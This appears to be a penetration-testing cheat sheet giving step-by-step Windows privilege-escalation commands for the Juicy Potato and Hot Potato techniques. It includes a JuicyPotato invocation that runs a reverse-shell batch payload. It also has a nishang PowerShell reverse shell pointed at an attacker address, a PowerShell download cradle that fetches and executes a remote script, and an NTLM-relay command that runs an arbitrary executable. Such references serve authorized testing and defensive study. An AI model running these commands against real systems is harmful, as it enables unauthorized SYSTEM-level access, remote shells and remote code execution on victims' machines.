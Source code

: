 ## Juicy Potato

> Service accounts can lead to SYSTEM if they have SeAssignPrimaryTokenPrivilege
or SetImpersonatePrivilege privileges enable (whoami /priv).

**Step 1:** Upload [JuicyPotato](https://github.com/ohpe/juicy-potato/releases) to the machine:

**Step 2:** Execute the binary with the following flags:

```bash
JuicyPotato.exe -l 9999 -p C:\temp\1.bat -t *
#-l: port to listen (can be random)
#-p: payload to use (a reverse shell)
#-t: technique used (*) for use all.
```

If the above method doesn't work (automatic using BITS), use a CLSID as shown in the following command:

```bash
JuicyPotato.exe -l 9999 -p C:\temp\1.bat -t * -c '{$CLSID}'
#Change $CLSID with any correct OS CLSID.
```

List of [CLSID's](https://ohpe.it/juicy-potato/CLSID/).

### **Bat file:**

```bash
#Use nishang PowerShellTcp reverse shell:
#path:
/opt/nishang/Shells/Invoke-PowerShellTcp.ps1

#Add the following line at the end of the file:
Invoke-PowerShellTcp -Reverse -IPAddress $IPADDRESS -Port $PORT

#Create a .bat file at the victim with the following line:
powershell "IEX(New-Object Net.WebClient).downloadString('http://XX.XX/file.ps1')"
#Serve it with python SimpleHTTPServer
```

More info at:

* [ohpe](https://github.com/ohpe/juicy-potato)
* [0x1 Gitlab](https://0x1.gitlab.io/exploit/Windows-Privilege-Escalation/#juicy-potato-abusing-the-golden-privileges)


______

## Hot Potato

> This attack tricks Windows into authenticating as the SYSTEM user to a fake http server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution.

**Note:** Patched on latest versions of w10.

```bash
.\potato.exe -ip $CURRENTWINDOWSIP -cmd "C:\XX\xx.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```
